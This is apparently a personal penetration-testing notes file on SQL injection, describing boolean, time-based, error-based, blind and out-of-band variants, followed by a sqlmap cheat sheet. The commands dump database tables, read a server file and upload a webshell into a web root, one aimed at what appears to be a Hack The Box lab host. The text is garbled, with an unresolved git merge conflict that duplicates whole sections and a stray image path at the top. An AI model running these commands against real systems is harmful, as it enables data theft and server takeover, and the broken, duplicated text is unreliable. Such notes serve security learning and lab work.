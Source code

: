 ## Boolean Based 
With Boolean Based SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns true.

## Timed Based
As for Time Based SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns true using the Sleep() function.

# Out Of Band
In some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.


<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
## Error Based
As for Error Based SQL injection, it is used when we can get the PHP or SQL errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.


# Blind
In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as Blind SQL injection, and it also has two types: Boolean Based and Time Based.

## Boolean Based 
With Boolean Based SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns true.

## Timed Based
As for Time Based SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns true using the Sleep() function.

# Out Of Band
In some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.


=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md
* * *

# SQLMap:
```bash
sqlmap -r request.req --dbs
sqlmap -r request.req -D main --tables
sqlmap -r request.req -D main -T user --columns
sqlmap -r request.req -D main -T user --dump
sqlmap -r req.req --level=5 --risk=3 --batch --file-read=/var/www/html/index.php>
sqlmap -r req.req --level=5 --risk=3 --batch --file-write=/home/kali/Downloads/Exploit/webshell.php --file-dest=/var/www/html/webshell.php
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 --level 5 --risk 3 --batch -D soccer_db -T accounts --dump
```